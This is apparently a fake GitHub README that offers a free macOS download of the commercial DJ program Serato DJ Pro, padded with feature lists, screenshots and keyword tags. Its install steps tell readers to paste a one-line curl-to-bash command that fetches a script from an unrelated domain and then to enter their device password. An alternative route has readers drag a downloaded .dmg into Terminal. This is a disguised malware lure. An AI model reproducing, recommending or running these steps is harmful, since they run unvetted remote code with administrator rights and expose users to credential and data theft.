 # 🎧 Serato DJ Pro — Ultimate DJ Software for macOS

**Serato DJ Pro** is a professional-grade DJ software for macOS, trusted by world-class DJs for live performance, club mixing, and music production. With seamless hardware integration, intuitive design, and robust features, Serato DJ Pro is the go-to solution for Mac users seeking reliable and high-performance DJ tools.

Whether you're performing at festivals or mixing tracks in the studio, Serato DJ Pro delivers precision control, low-latency performance, and stunning sound quality — all optimized for macOS.

---

## ✅ Download Serato DJ Pro for macOS  
[![Download Serato DJ Pro](https://img.shields.io/badge/Download-Serato_DJ_Pro-blue)](https://serato-dj-pro-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Serato DJ Pro?

Serato DJ Pro is a professional digital DJ platform that offers high-resolution waveform displays, real-time beat matching, and extensive hardware compatibility. It supports a wide range of controllers, mixers, and audio interfaces, making it ideal for both beginner and professional DJs on Mac. The software also features advanced performance modes, smart crates, and streaming support from TIDAL, Beatport, and SoundCloud.

---

## ✨ Features

- 🎚 **Professional Mixer Interface** with customizable layout  
- 🎵 **High-Resolution Waveforms** for precise beat matching  
- 🎧 **DVS Support** for turntable control with vinyl emulation  
- 📡 Streaming integration: TIDAL, Beatport, SoundCloud  
- 📁 Smart Crates & powerful track organization  
- 🛠 Plug-and-play support for most DJ controllers and mixers  
- 🧠 Practice Mode to mix without hardware  
- 🖥 Optimized for macOS Sonoma and Apple Silicon (M1/M2/M3)  
- 🔄 Auto-sync, pitch shifting, looping & slicer tools  
- 🎛 Plug-in FX support with Serato FX expansion packs  

---

## 💡 Why Use Serato DJ Pro?

- 🎼 Trusted by global DJs in clubs, festivals, and radio  
- 🔒 Rock-solid stability for live performance  
- 🎚 Industry-standard tools with ultra-low latency  
- 🧩 Massive controller & hardware support  
- ⚙️ Constant updates for new gear and macOS compatibility  
- 🎛 Perfect for live sets, remixing, and scratching  

---

[![Download Serato DJ Pro](https://img.shields.io/badge/Download-Serato_DJ_Pro-blue)](https://serato-dj-pro-mac-download.github.io/.github)

---

## 🖼 Preview

![Serato DJ Pro Screenshot 1](https://cdn.digitaldjtips.com/app/uploads/2018/02/28163009/Review-Serato-DJ-Pro-Main.jpg)  
![Serato DJ Pro Screenshot 2](https://u.cdn.sera.to/content/images/69/16669/16669.png)

---

## 📌 Tags

serato dj pro mac, serato dj pro macbook, serato macbook air, download serato dj mac,  
serato dj pro for macbook, dj software mac, serato macbook pro, djpro mac,  
serato for mac os, serato dj pro x, serato dj pro 2.5 5 for mac, serato dj software mac,  
macbook dj software, macbook air serato dj, serato scratch mac, serato pro macbook,  
serato dj software for macbook air, serato dj tools mac, mac dj app,  
serato pro download mac, mac dj software 2023, serato compatible macbook,  
best macbook for serato dj pro, dj controller mac compatible

